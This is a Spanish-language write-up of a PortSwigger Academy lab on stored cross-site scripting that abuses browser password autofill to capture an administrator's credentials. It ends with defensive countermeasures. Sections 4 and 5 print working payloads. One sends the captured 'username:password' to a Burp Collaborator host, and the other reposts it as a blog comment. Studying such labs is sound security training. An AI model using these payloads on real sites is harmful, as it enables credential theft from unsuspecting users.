


# Writeup: Exploiting cross-site scripting to capture passwords (PortSwigger)

- **Lab**: Exploiting cross-site scripting to capture passwords
- **URL**: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords
- **Categoría**: XSS / Stored / Exploitation phase / Browser autofill abuse
- **Dificultad**: Practitioner

---

## 1. Objetivo

Mismo escenario que el lab hermano (`exploiting-xss-to-steal-cookies`): stored XSS trivial en comentarios del blog, bot simulado que viene logueado como `administrator` y carga el thread cada pocos segundos. Pero esta vez el target NO es la cookie de sesión: es el **par usuario:contraseña** en plano. Una vez capturado, login normal con esas credenciales → lab solved.

La técnica nueva no es la inyección (la XSS sigue siendo trivial), es el **mecanismo de captura**: aprovechar el comportamiento de autocompletado del navegador del bot.

---

## 2. La mecánica clave: autofill del password manager

Los navegadores modernos (Chrome, Firefox, Edge) ofrecen guardar credenciales después de un login exitoso. Cuando el usuario vuelve a un dominio donde tiene credenciales guardadas y la página renderiza dos inputs con `name=username` y `type=password`, el navegador **autocompleta silenciosamente** los valores.

Este es exactamente el comportamiento que el bot del lab tiene. Carlos (administrator) hizo login alguna vez y su navegador guardó las credenciales asociadas al dominio del lab. Cada vez que carga una página con esos dos inputs presentes, el autofill rellena automáticamente.

El truco del payload: **inyectar esos dos inputs falsos dentro de un comentario del blog**. Cuando el bot carga el thread, el navegador detecta los inputs, autofill rellena, y un handler `onchange` en el password input se dispara para exfiltrar el valor.

```html
<input name=username id=username>
<input type=password name=password onchange="...exfil...">
```

El input de password tiene un `onchange` que ejecuta cuando su valor cambia y el campo pierde foco. Autofill considera que el valor "cambió" (de vacío a la credencial guardada) y dispara el evento.

---

## 3. Reconocimiento del contexto

El comentario se publica como HTML literal dentro de un `<p>` del bloque de comentarios:

```html
<section class="comment">
    <p>...avatar y autor...</p>
    <p>[CONTENIDO DEL COMENTARIO]</p>
    <p></p>
</section>
```

El contenido es interpretado tal cual por el parser HTML del navegador, así que `<input>` tags inline son DOM nodes funcionales. El navegador los trata como inputs reales para efectos de autofill.

### Verificación previa

Antes de inyectar el payload final, vale confirmar que el navegador autocompleta. Si tienes acceso al lab y has logueado a algún usuario antes (con guardar credenciales), recargar el post con un comentario que tenga solo:

```html
<input name=username><input type=password name=password>
```

Y mirar los inputs después de recargar: si tienen valor, autofill funciona. Si no, el bot no tiene credenciales guardadas en ese dominio y el lab no es resoluble así (caso poco probable porque PortSwigger configura el bot para que sí las tenga).

---

## 4. Payload con Burp Collaborator (variante oficial)

```html
<input name=username id=username>
<input type=password name=password onchange="
    if(this.value.length)
        fetch('https://COLLAB.oastify.com',{method:'POST',mode:'no-cors',body:username.value+':'+this.value});
">
```

Lo que hace:
1. El bot carga la página, autofill rellena ambos inputs.
2. `onchange` del password se dispara cuando el campo pierde foco después del fill (o inmediatamente al fill, según browser).
3. El handler verifica que el valor no está vacío (`this.value.length`).
4. `fetch` POST a Collaborator con body `username.value + ':' + password.value`.
5. El atacante hace "Poll now" en Collaborator y lee `carlos:montoya`.

`username.value` funciona sin `getElementById` porque los elementos con `id` se exponen como propiedades globales del `window` por compatibilidad histórica de HTML.

---

## 5. Adaptación same-origin (sin Burp Pro)

El firewall del lab de PortSwigger Academy bloquea egress externo (ver writeup `exploiting-xss-to-steal-cookies`, sección 2, para el descubrimiento). Lo mismo que con cookie stealing, la solución es **publicar las credenciales como un comentario nuevo dentro del propio blog del lab** y leerlas refrescando el post después.

```html
<input name=username id=username>
<input type=password name=password onchange="
if(this.value.length){
    fetch('/post/comment',{
        method:'POST',
        headers:{'Content-Type':'application/x-www-form-urlencoded'},
        body:'csrf='+document.getElementsByName('csrf')[0].value
            +'&postId='+new URLSearchParams(location.search).get('postId')
            +'&name=stolen&email=a@a.com&website=http://a.com'
            +'&comment='+encodeURIComponent(username.value+':'+this.value)
    });
}">
```

Diferencias respecto al payload de cookie stealing:
- **No hace falta `addEventListener('DOMContentLoaded', ...)`**. En el lab de cookies el `<script>` ejecutaba inmediatamente al ser parseado, antes de que el form de comentarios (que está más abajo en el HTML) existiera. Aquí el `fetch` está dentro de un handler `onchange` que ejecuta DESPUÉS de que la página termina de cargar y autofill se completa. Para cuando el handler corre, el form ya tiene mucho rato existiendo en el DOM.
- **El payload no usa `<script>`**. Solo dos `<input>` con un atributo `onchange`. Esto sortea cualquier filtro que busque la cadena `<script>` literal pero no inspeccione atributos de event handler.
- **El timing es controlado por el browser, no por el atacante**. El `onchange` no se dispara hasta que autofill ocurre, lo que en algunos browsers requiere que el campo pierda foco. En el navegador headless del bot esto ocurre automáticamente al cargar la página completa.

---

## 6. Resolución

1. Pegué el payload same-origin de la sección 5 en un comentario nuevo del primer post. Submit.
2. Esperé ~60 segundos.
3. Refresqué el post. Apareció un comentario nuevo de "stolen" con texto: `administrator:[contraseña en plano]`.
4. Logout de mi sesión, fui a `/login`, metí esas credenciales.
5. Quedé logueado como `administrator`. Lab marcado como **Solved**.



---

## 7. Resumen de la cadena



Tres ideas para llevarse:

1. **El password manager del navegador es una superficie de ataque cuando hay XSS**. La defensa de "tengo HttpOnly en la cookie de sesión" no protege aquí: el atacante no busca la cookie, busca el password en plano. Una credencial filtrada vale más que una cookie temporal porque persiste entre rotaciones de sesión.
2. **Los `<input>` inline en HTML inyectado son inputs reales para el navegador**, incluyendo autofill, validación, y eventos. Cualquier comentario donde el navegador renderiza HTML literal expone esa superficie. El filtro adecuado es lista blanca de tags (sin `<input>` ni `<form>`) más HTML escape.
3. **La adaptación same-origin del exfil es reusable across lab types**. El patrón "publicar la captura como comentario en el blog del lab" sirvió para cookie stealing y vuelve a servir aquí. Es la sustitución natural de Burp Collaborator dentro del entorno con firewall de PortSwigger.

---

## 8. Contramedidas

Defensas en orden de robustez:

1. **Sanitizar HTML del comentario eliminando `<input>`, `<form>`, `<script>` y atributos de event handler (`on*`)**. Allowlist de tags y atributos seguros vía DOMPurify o equivalente. Es el fix raíz: si los `<input>` no existen en el DOM, autofill no tiene a quién rellenar.
2. **Configurar `autocomplete="off"` en formularios sensibles**. Mitiga parcialmente el autofill abuse, pero los password managers modernos a menudo ignoran esta directiva por usabilidad. No es defensa robusta por sí sola.
3. **Detectar `<input type=password>` fuera de contextos esperados** del lado server al renderizar contenido de usuario, y bloquear o re-encodear. Puede falsa-positivar pero es una capa útil para apps con foros/blogs donde nadie debería postear inputs.
4. **Content Security Policy con `script-src` estricta** ayuda contra `<script>` inline pero NO contra atributos `onchange` (esos viven en HTML, no en JS de script-src). Para bloquearlos, CSP nivel 3 con `script-src-attr 'none'`.
5. **Storage de credenciales server-side cifrado y rotación**. Aunque el atacante capture user:password, si la app usa MFA, el password solo no basta. Defensa en profundidad.
6. **Educación del usuario sobre password managers**: usar uno propio (no el del navegador), que filtra por dominio exacto y no rellena en subdominios o formularios sospechosos.

### Anti-patrón frecuente

Confiar en `autocomplete="off"` como defensa contra autofill. Los password managers tipo 1Password, Bitwarden y los integrados en navegadores modernos a menudo lo ignoran intencionalmente porque los usuarios se quejan cuando no autocompletan. La defensa real es no permitir que HTML del atacante incluya inputs.

---

## 9. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Exploiting cross-site scripting to capture passwords*. https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords
- PortSwigger Web Security Academy. (s.f.). *Exploiting cross-site scripting vulnerabilities*. https://portswigger.net/web-security/cross-site-scripting/exploiting
- WHATWG. (s.f.). *HTML Living Standard, The autofill section*. https://html.spec.whatwg.org/multipage/form-control-infrastructure.html#autofill
- MDN Web Docs. (s.f.). *HTMLInputElement: change event*. https://developer.mozilla.org/en-US/docs/Web/API/HTMLElement/change_event
- OWASP Foundation. (s.f.). *Credential Stuffing Prevention Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Credential_Stuffing_Prevention_Cheat_Sheet.html
- Writeup propio: [`learning/portswigger/exploiting-xss-to-steal-cookies/writeup.md`](../exploiting-xss-to-steal-cookies/writeup.md) — lab anterior de la sub-sección, donde se descubre el firewall del lab y se establece el patrón de auto-exfiltración same-origin reutilizado aquí.
- Inventario interno: [`inventario/04-explotacion/web/explotacion-xss.md`](../../../inventario/04-explotacion/web/explotacion-xss.md) — sección "Form override / credential capture" generaliza esta técnica para apps con login form en página con XSS.
